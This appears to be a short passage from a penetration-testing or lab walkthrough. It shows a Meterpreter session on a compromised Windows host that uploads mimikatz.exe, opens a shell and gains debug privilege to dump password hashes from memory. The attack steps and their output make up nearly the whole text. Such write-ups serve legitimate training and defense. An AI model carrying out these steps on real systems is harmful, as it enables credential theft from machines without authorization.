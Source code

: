 



**Dumping Hashes With with mimikatz**

```bash
meterpreter > cd C:\\
meterpreter > mkdir Temp
Creating directory: Temp
meterpreter > cd Temp 
meterpreter > pwd
C:\Temp
meterpreter > upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
[*] uploading  : /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
[*] Uploaded 1.25 MiB of 1.25 MiB (100.0%): /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
[*] uploaded   : /usr/share/windows-resources/mimikatz/x64/mimikatz.exe -> mimikatz.exe
meterpreter > shell
Process 1540 created.
Channel 2 created.
Microsoft Windows [Version 10.0.17763.1457]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9E32-0E96

 Directory of C:\Temp

01/22/2024  07:00 PM    <DIR>          .
01/22/2024  07:00 PM    <DIR>          ..
01/22/2024  07:00 PM         1,309,448 mimikatz.exe
               1 File(s)      1,309,448 bytes
               2 Dir(s)  15,983,468,544 bytes free

C:\Temp>.\mimikatz.exe
.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

```

`Privilege '20' OK` it means we have the appropriate  privilege to perform hash extraction from memory
